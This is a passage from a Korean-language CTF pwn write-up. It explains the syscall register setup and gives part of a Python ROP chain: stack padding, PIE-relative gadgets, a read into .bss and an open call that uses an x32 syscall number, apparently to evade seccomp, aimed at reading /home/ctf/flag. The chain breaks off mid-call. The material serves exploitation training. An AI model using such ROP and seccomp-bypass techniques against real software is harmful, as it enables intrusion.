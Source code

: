 ![./18.png](./18.png)


syscall

- syscall을 할 read, open, write 의 인자는 총 3, 2개 이기 때문에 rdi, rsi, rdx 레지스터가 필요하다.
- 해당 부분에서 구할 수 있는 가젯은 위 사진과 같으며 필요없는 레지스터는 아무 값이나 넣어주면되겠다.

```python
pop_rdx = 0xc1d + pie_base
pop_rax_rdi_rsi = 0xc21 + pie_base
syscall= 0xc45 + pie_base

ROP = p8(0x41)*168

# read(0, bss, len(flag));
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(0)  							
ROP += p64(0)           				
ROP += p64(0)							
ROP += p64(pop_rdx)		
ROP += p64(len("/home/ctf/flag\x00"))
ROP += p64(0)
ROP += p64(0)
ROP += p64(0)							
ROP += p64(pie_base + e.bss())     		
ROP += p64(syscall)

# open(bss, 0, 0)
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(0x40000002)  				
ROP += p64(0)           				
ROP += p64(0)							
ROP += p64(pop_rdx)		
ROP += p64(0)
ROP += p64(0)
ROP += p64(0)
```